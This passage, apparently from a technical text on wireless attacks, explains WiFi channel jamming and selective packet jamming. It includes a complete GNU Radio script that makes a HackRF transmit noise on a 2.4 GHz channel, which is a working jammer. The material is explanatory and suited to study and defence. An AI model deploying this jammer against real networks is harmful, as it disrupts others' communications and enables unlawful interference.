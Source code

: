 Normal:         [PKT1]   [PKT2]   [PKT3]   [PKT4]   [PKT5]

Continuous:     [PKT-    ////////////////////////    -PKT5]
                 Jamming starts      Jamming ends
                 
Selective:      [PKT1]   [////]   [PKT3]   [////]   [PKT5]
                        Targeted      Targeted
```

The simplest approach, channel jamming, floods a WiFi channel with continuous energy to prevent legitimate devices from communicating. This technique comes in several flavors: tone jamming uses a single frequency to disrupt a specific portion of the channel, wideband noise jamming spreads interference across the entire channel, and protocol-aware jamming specifically targets critical management frames. While conceptually straightforward, effective implementation requires hardware capable of transmitting at WiFi frequencies (2.4/5GHz) with sufficient power to overcome legitimate signals.

Consider this simplified GNU Radio implementation of a basic WiFi jammer—a sobering reminder of how accessible these techniques have become:

```python
#!/usr/bin/env python3
from gnuradio import gr, analog, blocks
from gnuradio.filter import firdes
import osmosdr

class WifiJammer(gr.top_block):
    def __init__(self, freq=2437e6, sample_rate=20e6, tx_gain=47):
        gr.top_block.__init__(self, "WiFi Channel Jammer")
        
        # Signal source - noise to jam channel
        self.source = analog.noise_source_c(analog.GR_GAUSSIAN, 1, 0)
        
        # Output to SDR
        self.sink = osmosdr.sink(args="hackrf=0")
        self.sink.set_sample_rate(sample_rate)
        self.sink.set_center_freq(freq)
        self.sink.set_freq_corr(0, 0)
        self.sink.set_gain(tx_gain, 0)
        
        # Connect blocks
        self.connect(self.source, self.sink)

if __name__ == '__main__':
    jammer = WifiJammer()
    jammer.start()
    input("Press Enter to quit...")
    jammer.stop()
```

Far more sophisticated than brute-force jamming is selective packet jamming—a precision technique that targets specific frames while allowing others to pass unimpeded. This approach requires a reactive process: monitoring the channel, detecting the target packet's preamble or header, quickly switching to transmit mode, and broadcasting a jamming signal precisely during the vulnerable portion of the frame. The timing constraints are extraordinarily tight, with detection-to-jamming transition needing to occur in less than 5 microseconds, and the jamming signal needing to be precisely synchronized with the target frame.
